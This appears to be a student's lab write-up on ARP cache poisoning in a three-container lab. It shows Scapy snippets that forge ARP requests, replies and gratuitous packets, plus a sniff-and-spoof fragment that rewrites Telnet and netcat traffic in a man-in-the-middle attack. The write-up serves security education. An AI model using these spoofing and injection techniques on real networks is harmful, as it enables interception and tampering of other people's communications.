 # ARP Cache Poisoning Lab
- The **Address Resolution Protocol (ARP)** is a protocol used for discovering the link layer address, such as MAC address, given an IP address. It is a very simple protocol without any security measure
- Using ARP cache poisoning attack, attackers can fool the victim into accepting forged IP-to-MAC mapping, which can cause the victim's packets to be redirected to the computer with the forged MAC address, leading to potential man-in-the-middle attacks
- topics
    - The ARP protocol
    - The ARP cache poisoning attack
    - Man-in-the-middle attack
    - Scapy programming

## Lab Setup
- 3 containers
    - Host M (Attacker): `10.9.0.105`, `02:42:0a:09:00:69`
    - Host A: `10.9.0.5`, `02:42:0a:09:00:05`
    - Host B: `10.9.0.6`, `02:42:0a:09:00:06`

## Task 1: ARP Cache Poisoning
- use packet spoofing to launch an ARP cache poisoning attack on a target, such that when two victims A and B try to communicate with each other, their packets will be interpreted by the attacker, who can make changes to the packets, and can thus become the man in the middle between A and B
- use Python to spoof a basic ARP packet
    ```
    E = Ether()
    A = ARP()
    A.op = 1 # 1 for ARP request; 2 for ARP reply
    sendp(E/A)
    ```
- see attribute names of ARP and Ether classes using `ls(ARP)` and `ls(Ether)`
- specifically, the attack should cause A to add a fake entry to its ARP cache, such that B's IP address is mapped to attacker M's MAC address, we can check a computer's ARP cache using `arp -n` command, we can use `-i <interface>` to look at the ARP cache associated with a specific interface

### Task 1.A (using ARP request)
- spoof an ARP packet that maps B's IP address to M's MAC address, and send it to A
    ```
    # a broadcast
    eth = Ether(dst='ff:ff:ff:ff:ff:ff')
    # send a request to A, with B's IP and M's MAC as source
    arp = ARP(pdst='10.9.0.5', psrc='10.9.0.6', hwsrc='02:42:0a:09:00:69')
    ```
- Analyze the captured packets in Wireshark
    1. a request, from M's MAC address, broadcast, `Who has 10.9.0.5? Tell 10.9.0.6`, when host A gets this packet, it will add an entry to its ARP cache: (M's MAC address, B's IP address)
    2. a reply, from A's MAC address to M's MAC address, `10.9.0.5 is at 02:42:0a:09:00:05`, but this will not add an entry to M's ARP cache

- on A
    ```
    # arp -n
    Address        HWtype  HWaddress           Flags Mask      Iface
    10.9.0.6       ether   02:42:0a:09:00:69   C               eth0
    ```

### Task 1.B (using ARP reply)
- first, clear A's ARP cache `ip -s -s neigh flush all`, then construct an ARP reply packet
    ```
    # a broadcast
    eth = Ether(dst='02:42:0a:09:00:05')
    # send a reply to A, with B's IP and M's MAC as source
    arp = ARP(pdst='10.9.0.5', hwdst='02:42:0a:09:00:05',  psrc='10.9.0.6', hwsrc='02:42:0a:09:00:69')
    ```
- scenario 1: B's IP is already in A's cache
    - to see the difference, use an ARP request to map B's IP to B's MAC in A's ARP cache
    - then, send an ARP reply that maps B's IP to M's MAC
    - successfully change this entry, map B's IP to M's MAC address
- scenario 2: B's IP is not in A's cache
    - clear the previous entry `arp -d 10.9.0.6`
    - no entry has been added to A's ARP cache

### Task 1.C (using ARP gratuitous message)
- *ARP gratuitous packet* is a special ARP request packet, it is used when a host machine needs to update outdated information on all the other machine's ARP cache, it has the following characteristics
    - the source and destination IP are the same, and they are the IP of the host issuing the gratuitous ARP
    - the destination MAC addresses in both ARP header and Ethernet header are the broadcast MAC address `ff:ff:ff:ff:ff:ff`
    - No reply is expected
- on M, construct an ARP gratuitous packet, and use it to map B's IP to M's MAC
    - verify whether it is a gratuitous message: in Wireshark, there is only 1 ARP request packet, no reply
    - scenario 1: B's IP is already in A's cache (**success**)
    - scenario 2: B's IP is not in A's cache (**fail**)

### Another Method: ARP Announcement
- if we modify the program for task `1.A`, such that the destination IP is the same as the source IP (B's IP), the packet will be an ARP announcement, this method can also modify the ARP cache of A if B's IP address is already in A's ARP cache

## Task 2: MITM Attack on Telnet using ARP Cache Poisoning

### Step 1: Poison A's and B's ARP cache
- on host A
    ```
    # arp -n
    Address        HWtype  HWaddress           Flags Mask      Iface
    10.9.0.6       ether   02:42:0a:09:00:69   C               eth0
    ```
- on host B
    ```
    # arp -n
    Address        HWtype  HWaddress           Flags Mask      Iface
    10.9.0.5       ether   02:42:0a:09:00:69   C               eth0
    ```
### Step 2: Testing
- turn the IP forwarding of Host M off `sysctl net.ipv4.ip_forward=0`
- ping each other between A and B: unable to get reply

### Step 3: Turn on IP forwarding and test again
- `sysctl net.ipv4.ip_forward=1`
- both A and B can get reply when they ping each other
- However, in Wireshark, we can see that, if we take request from A as an example, the IP of the reply packet is B's IP, not M's IP, and if we check the ARP cache on A, the MAC address for B's IP has been modified to B's MAC address, this is because when A pings B, it will broadcast an ARP request asking for the MAC address of `10.9.0.6`, and according to task `1.B`, host B's reply will overwrite the entry in A's ARP cache

### Step 4: Launch the MITM attack
- assume that A is the Telnet client and B is the Telnet server
- after A has connected to the Telnet server on B, for every key strok typed in A's Telnet window, a TCP packet will be generated and sent to B, we will intercept the TCP packet, and replace each typed character with a fixed character `Z`
- write a sniff-and-spoof program, for packets sent from A to B, and spoof a TCP packet with different data, for packets from B to A, we do not make any change
- filter: `'tcp and host 10.9.0.5 and host 10.9.0.6 and ether dst 02:42:0a:09:00:69'`, because we don't want to capture packets from M to A or B
- core code that modifies the data
    ```
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)
        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            list_str = list(data)
            list_str[-1] = 'Z'
            newdata = ''.join(list_str)
            send(newpkt/newdata)
        else:
            send(newpkt)
    ```
- result: after running this program, when typing on A's Telnet window, no matter which key is typed, it becomes a letter `Z`
- tips: while doing this task, there is a possibility that the ARP cache of A or B is modified, because they sometimes will broadcast ARP requests asking for each other's MAC address, so we need to regularly check this, and invoke the ARP poisoning program again
## Task 3: MITM Attack on Netcat using ARP Cache Poisoning
- similar to task `2`, except that A and B are communicating using `netcat`
- on host B: `nc -lp 9090`
- on host A: `nc 10.9.0.6 9090`
- in `netcat`, each line of message typed on A will be put into a TCP packet sent to B, which simply displays the message
- replace the data with our first name (e.g., `123456789` -> `heisenbug`), the length of the modified data should be the same as the original data, or we will mess up the TCP sequence number, and hence the entire TCP connection
- remember that when typing `ABC` and enter, there will be 4 bytes of data (`'ABC'` and `\n`), I kept the last byte `'\n'`
- on host A's `netcat` window
    ```
    # nc 10.9.0.6 9090
    ABCDEFG12
    123X
    ```
- on host B
    ```
    # nc -lp 9090
    heisenbug
    heis
    ```
